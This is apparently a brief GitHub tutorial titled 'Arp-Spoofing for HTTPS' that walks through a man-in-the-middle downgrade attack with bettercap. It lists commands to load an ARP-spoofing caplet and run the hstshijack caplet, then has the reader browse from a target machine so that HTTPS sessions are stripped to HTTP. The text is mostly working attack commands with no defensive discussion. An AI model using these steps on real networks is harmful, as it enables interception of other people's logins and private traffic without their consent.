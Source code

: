 # Arp-Spoofing for HTTPS

## Downgrade HTTPS to HTTP

```bash
bettercap -iface eth0 -caplet https_arp_attack.cap
```

```bash
help
```
Make sure they are on, running:

![image](https://github.com/user-attachments/assets/787dd6e8-5321-4e7d-875a-15eb0ee8262b)


Show caplets:

```bash
caplets.show
```

Run hstshijack/hstshijack caplet:

```bash
hstshijack/hstshijack
```
Then on the target machine if you go a website uses https (go to google.com and search linkedin, click the linkedin web page at the beginning):

![image](https://github.com/user-attachments/assets/df57bb4c-ce8d-48a6-be4f-60b797290fc6)


